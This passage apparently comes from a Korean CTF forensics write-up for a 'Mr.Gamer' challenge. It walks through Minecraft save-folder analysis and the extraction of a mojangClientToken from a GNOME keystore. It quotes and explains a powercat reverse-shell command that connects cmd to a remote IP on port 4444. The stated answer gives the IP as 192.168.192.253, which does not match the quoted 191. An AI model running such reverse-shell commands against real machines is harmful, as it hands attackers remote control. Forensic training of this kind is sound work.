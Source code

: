 powercat -c 192.168.191.253 -p 4444 -e cmd:<br>
powercat는 PowerShell 환경에서 Netcat과 유사한 기능을 제공하는 툴이다.<br>
-c 192.168.191.253는 클라이언트 모드로 192.168.191.253 IP 주소의 서버에 연결하라는 옵션이다.<br>
-p 4444는 해당 서버의 4444 포트로 연결하라는 옵션이다.<br>
-e cmd는 연결이 이루어지면 명령 셸(cmd)을 실행하라는 의미이다.<br>
종합적으로, 이 명령어는 원격 서버에서 powercatps1 스크립트를 다운로드하고 실행하여, 로컬 컴퓨터를 192.168.191.253의 서버와 연결한 후, 명령 셸을 실행하도록 설정하는 것이다. 이러한 명령은 주로 원격 제어나 해킹, 침투 테스트 등의 목적으로 사용된다.<br><br>

yay~ 문제에서 물어보는 내용은 결국 **-c 192.168.192.253 -p 4444 -e cmd**가 된다.<br><br><br><br>



**Q15. Hello (New) World -> How many dimensions (including the overworld) did the player travel to in the "oldest of the worlds"?<br><br>**

다시 등장한 마인크래프트 관련된 문제이다. Mr.Gamer라는 문제 답게 게임 관련 질문이 쏟아지고 있는 중이다.<br>
문제는 가장 오래 전에 생성된 마인크래프트 월드에서 플레이어가 여행을 하는데, 얼마나 많이 dimensions를 탐험했냐고 묻고 있다.<br><br>

우선 .minecraft/saves에는 .이라는 파일, ..이라는 파일, 1_1_8 world라는 파일, New World라는 파일이 존재하는데 가장 오래된 New World 파일을 조사해보면 되겠다.<br><br>

마인크래프트에서는 오버월드/네더/엔드라는 3가지 차원이 존재한다. 즉, 플레이어가 오버월드, 네더, 엔드라는 3가지 차원을 이동한 횟수를 물어보는 문제이다.<br><br>

위 마인크래프트 관련 문제를 풀 때, root\home\rafael\.minecraft\saves\ 경로로 향하였는데<br>
New World라는 파일을 보면 DIM1, DIM-1 등이 있는데 DIM은 dimension의 줄임말로 보이며 DIM1, DIM-1 디렉토리 안에는 정보들이 들어있지 않다.<br><br>

그 말인 즉슨, 기본으로 플레이어가 스폰하는 월드인 오버월드를 제외하고는 DIM1, DIM-1이라는 차원으로 이동을 하지 않았다는 소리가 된다.<br>
문제에서는 오버월드를 포함하여 물어보고 있기 때문에 답은 **One**이 된다.<br><br><br><br>



**Q16. Matrix_1999 is the key! -> What is the mojangClientToken stored in the Keystore?<br><br>**

16번 문제는 mojangClientToken을 찾는 문제다.<br>
이전 문제들에 비해 난이도가 올라간 문제인데,<br><br>

첫 번째로, keystore을 찾아볼 것이다.<br><br>

sudo find /mnt/Linux -name "*.keystore"<br>
#returns /mnt/Linux/home/rafael/.local/share/keyrings/user.keystore><br><br>

그 후,  사용자의 keystore을 sudo find /mnt/Linux -name "*.keystore" 명령어를 통해 keyrings 디렉토리에 복사한 뒤 이름을 바꾸었다.<br><br>

cp /mnt/Linux/home/rafael/.local/share/keyrings/user.keystore /home/remnux/.local/share/keyrings/rafael.keystore<br>
그 후, Passwords and Keys를 가상머신에서 오픈을 해주었꼬, Matrix_1999라는 비밀번호를 통해 잠금해제하였다.<br><br>

![MRGAMER_16_00](https://github.com/user-attachments/assets/d0b683c1-9f32-432e-b425-4b2d326f0f56)<br>
쭉 아래로 내리다보면 mojangClientToken을 찾을 수 있었다. 그리고 이것을 복사하여 터미널에 값을 얻기 위해 붙여넣었다.<br><br>

![1_oOdf4NeldlO3WER03DKj9Q](https://github.com/user-attachments/assets/c16368e3-49d9-4009-a51b-bcb88eb9b0ed)<br>
값, **2f76c8b04c004ddd888a05a6cad6be52**을 획득하였다.<br><br><br><br>

